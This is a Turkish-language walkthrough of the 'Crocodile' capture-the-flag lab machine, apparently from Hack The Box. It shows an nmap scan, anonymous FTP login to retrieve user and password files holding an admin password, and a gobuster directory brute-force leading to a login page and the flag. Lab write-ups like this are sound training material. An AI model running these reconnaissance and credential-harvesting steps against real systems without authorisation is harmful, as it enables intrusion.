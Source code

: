 ```yaml
---
glightbox: true
---
```


# Crocodile

!!! info "Target IP Address"

    10.129.39.65

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.39.65 -p 21 -sV
```

```text title="Output" hl_lines="6 7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:37 +03
Nmap scan report for 10.129.39.65
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.34 seconds
```

Hedef makineye FTP bağlantısı gerçekleştir ve `anonymous` kullanıcısı olarak giriş yap:

```bash
ftp 10.129.39.65
```

FTP bağlantısı kurulduktan sonra `allowed.userlist` ve `allowed.userlist.passwd` dosyalarını sisteme indir.

Dosya içeriklerini görüntülersek `admin` kullanıcısının parolasını (`rKXM59ESxesUFHAd`) elde edebiliriz.

Gobuster ile dizin kaba kuvveti gerçekleştir:

```bash
gobuster dir -u 10.129.39.65 -x php -w /usr/share/dirb/wordlists/common.txt
```

```text title="Output" hl_lines="29"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.39.65
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/assets               (Status: 301) [Size: 311] [--> http://10.129.39.65/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 308] [--> http://10.129.39.65/css/]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.39.65/dashboard/]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.39.65/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 307] [--> http://10.129.39.65/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]

...SNIP...
```

Elde edilen tüm bilgileri kullanarak [http://10.129.39.65/login.php](http://10.129.39.65/login.php) adresindeki giriş formunu doldur ve bayrağı ele geçir.
